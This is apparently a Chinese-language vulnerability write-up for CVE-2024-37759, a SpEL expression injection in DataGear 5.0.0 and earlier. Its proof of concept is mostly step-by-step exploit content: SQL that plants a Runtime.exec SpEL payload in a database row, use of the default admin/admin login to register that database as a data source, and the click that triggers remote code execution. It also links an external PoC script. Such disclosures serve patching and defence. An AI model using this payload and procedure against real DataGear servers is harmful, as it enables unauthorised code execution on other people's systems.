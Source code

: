 # DataGear数据可视化分析平台存在SpEL表达式注入漏洞(CVE-2024-37759)

DataGear 5.0.0 及更早版本存在 SpEL 表达式注入漏洞，可导致远程代码执行。

## poc

### 准备恶意数据库表

```sql
CREATE DATABASE evil;

CREATE TABLE `evil` (
  `name` varchar(209) COLLATE utf8mb4_unicode_ci DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_unicode_ci;

INSERT INTO `evil` VALUES ("#{T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('calc')}");
```

### 第二步：添加恶意数据库源

1. 1. 登录 [http://localhost:50401](http://localhost:50401/)，默认账号密码为 admin/admin。
2. 1. 在架构添加界面中添加此 MySQL 数据库：`/schema/saveAdd`。
3. 1. 选择"数据源"—"数据源添加"，填写刚才创建的恶意数据库地址。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409200954552.png)

### 第三步：触发漏洞执行代码

打开刚才添加的数据库，然后单击"查看"按钮，将执行 SpEL 表达式。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409200954385.png)



## 漏洞脚本

https://github.com/crumbledwall/CVE-2024-37759_PoC/



## 漏洞来源

- https://forum.butian.net/article/590